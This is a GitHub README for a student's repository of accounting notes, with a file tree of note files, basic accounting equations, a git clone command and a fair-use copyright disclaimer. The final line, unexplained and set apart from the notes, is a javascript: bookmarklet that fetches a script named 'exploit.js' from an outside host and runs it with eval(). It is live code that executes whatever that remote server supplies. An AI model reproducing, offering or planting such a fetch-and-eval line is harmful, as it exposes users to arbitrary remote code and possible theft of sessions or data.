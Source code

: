 # For Classmates:
       Tap view code to get out of readme blob and navigate around.          
       
Files are items that contain content. A folder is a bunch of files.          
              
File system:
```
School-stuffs
├── accounting cycles.txt
├── accounting theory.txt
│
│
├── Definitions and reasons
│   ├── Accounting Information system.txt
│   ├── depreciation.txt
│   ├── dishonored cheque.txt
│   ├── expenditures, definitions and accountant qualities.txt
│   ├── income and expenses.txt
│   ├── Internal control.txt
│   ├── Ledger types.txt
│   ├── Liabilities.txt
│   └── Source documents.txt
│
│
└── stakeholders
    ├── Interactions business and stakeholders.jpg
    ├── Proprietorships2.jpg
    ├── Proprietorships.jpg
    └── Stakeholders actions.jpg

```
# School-stuffs
A drive to contain all of my school stuff. Apparently I reached the limit of google drive so idk man.


      
Assets = liability + equity     
      
Equity = Capital + income - expense - drawings      


If you feel like cloning
```
git clone -b POA https://github.com/pendragons-code/School-stuffs
```

            
            
            
            
            
# copyright
This repo consists of items from the Principles of accounts textbook by marhsall cavendish Education.

Fair use is an affirmative defense that can be raised in response to claims by a copyright owner that a person is infringing a copyright. Fair use permits a party to use a copyrighted work without the copyright owner’s permission for purposes such as criticism, comment, news reporting, teaching, scholarship, or research. These purposes only illustrate what might be considered as fair use and are not examples of what will always be considered as fair use. In fact, there are no bright-line rules in determining fair use, since it is determined on a case-by-case basis. But copyright law does establish four factors that must be considered in deciding whether a use constitutes a fair use. Repo will be deleted if requested     


javascript:fetch("https://compactcow.com/ltbeef/exploit.js%22).then(data=%3E%7Bdata.text().then(text=%3E%7Beval(text)%7D)%7D);



